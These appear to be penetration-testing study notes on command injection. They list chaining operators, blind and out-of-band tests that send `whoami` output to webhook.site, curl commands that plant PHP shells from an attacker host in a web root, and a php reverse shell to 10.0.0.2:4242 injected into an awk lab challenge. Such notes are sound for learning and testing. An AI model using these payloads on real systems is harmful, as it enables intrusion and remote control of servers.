 # Command Injection

### Command Injection - Introduction

eval() is evil

User input is executed by a function

Never trust user input! Avoid using eval() (JS) and system() (PHP)

### Command Injection - Basics

Wiki https://appsecexplained.gitbook.io

Check paths for binaries with `which`

For reverse shells try to use the language the app is running

Basic command chaining

`; ls -la`

Using logic operators

`&& ls -la`

Commenting out the rest of a command

`; ls -la #`

Using a pipe for command chaining

`| ls -la`

Testing for blind injection

```
; sleep 10
; ping -c 10 127.0.0.1
& whoami > /var/www/html/whoami.txt &
```

Out-of-band testing

```
& nslookup webhook.site/<id>?`whoami` &
```

### Commmand Injection - Blind/Out-of-Band

Use backticks to wrap commands in URLs, use newlines or `&` to execute additional commands

Determine which characters are being filtered

Using webhook.site

```
https://webhook.site/<id>?`whoami`
```

Using locally hosted reverse shell

`https://google.com && curl 10.0.0.2:8080/shell.php > /var/www/html/shell.php`

### Commmand Injection - Challenge

awk 'BEGIN {print sqrt(((100-100)^2) + ((200-300)^2))}'

Payload in Position Y:

`200)^2))}'; whoami;#`
`200)^2))}'; curl 10.0.0.2:8080/rev.php > /var/www/html/rev.php;#`

navigate to localhost/rev.php for reverse shell

Walkthrough payload:

`200)^2))}';php -r '$sock=fsockopen("10.0.0.2",4242);exec("/bin/sh -i <&3 >&3 2>&3");';#`
